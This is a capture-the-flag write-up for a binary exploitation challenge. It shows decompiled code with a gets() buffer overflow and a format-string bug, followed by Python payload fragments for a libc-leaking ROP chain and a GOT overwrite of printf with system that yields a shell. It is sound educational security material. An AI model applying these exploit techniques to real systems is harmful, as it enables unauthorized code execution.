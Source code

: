 # Return Of The ROPs
#### Description
Is ROP dead? God no. But it returns from a long awaited time, this time in a weird fashion. Three instructions ... can you pwn it?
#### Author
Tango
#### Points and solves
480 points, 55 solves.


This binary is a simpler version of pwn_inn.

```c
undefined8 main(void)
{
  char local_28 [32];
  
  ignore_me_init_buffering();
  puts("What would you like to say?");
  gets(local_28);
  printf(local_28);
  return 0;
}
```

Buffer overflow and string format attack, there's nothing more we could ask for.

### Leaking libc:
```python
payload = 40*b"A" +  p64(pop_rdi) + p64(elf.sym.got["puts"]) + p64(elf.sym.plt["puts"]) + p64(elf.sym.main)
```
Simple ROP chain to leak ```puts``` address.
We don't have a libc version, so we use the website [libc database search](https://libc.nullbyte.cat/) to narrow down libc version based on known addresses.

## Getting shell:
We overwrite printf with system, in the same manner we did in pwn_inn, just instead using 3 batches, I used 2 batches and discarded the ```BBBB``` part because it's just uneccessary. (Because for both it's 0x007f.)

```python
payload = b"%" + ("%05d"%l[0]).encode("ascii") + b"d%13$hn" +\
		  b"%" + ("%05d"%(l[1]-l[0])).encode("ascii") + b"d%14$hn"
payload += (0x28-len(payload))*b"A" + p64(ret) + p64(elf.sym.main)
for i in range(0,2):
    if l[i] == third2:
        payload += p64(elf.sym.got["printf"]+2)
    if l[i] == third3:
        payload += p64(elf.sym.got["printf"])
```


Send this payload, write ```/bin/sh``` in interactive and get shell :)

